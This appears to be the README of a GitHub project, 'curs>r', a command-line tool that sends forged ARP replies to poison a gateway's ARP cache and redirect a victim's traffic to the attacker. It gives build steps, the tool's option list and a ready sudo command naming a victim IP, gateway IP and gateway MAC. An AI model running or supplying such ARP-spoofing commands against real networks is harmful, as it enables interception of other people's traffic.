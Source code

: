 # curs>r
A small tool to send malicious arp packets that poison the arp cache of gateway, so the victim's traffic is able to route to the attacker's machine.The curs>r name inspired by an 80s survival horror game in a netflix movie called "Choose or Die" where the game makes the players step into a surreal world of next-level terror and forces them to make choices with deadly consequences.

### Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

### Building
```bash
cd build
./builder.sh
```

### Usage
```bash
➜ ./curser -h
Usage:  curser [ -<flag> [<val>] | --<name> <val>] ]...

   -i, --interface-name       traffic output interface
   -o, --op-code              type of packet[req/rep]
   	 --victim-ip            victim ip address
       --dst-ip               gateway ip
       --dst-mac              gateway mac address
   -h, --help                 display usage information and exit
   -v, --version              display version information and exit
  
➜ sudo ./curser -i en0 -o rep --victim-ip 192.168.0.22 --dst-ip 192.168.1.1 --dst-mac 00:01:02:03:04:05
```
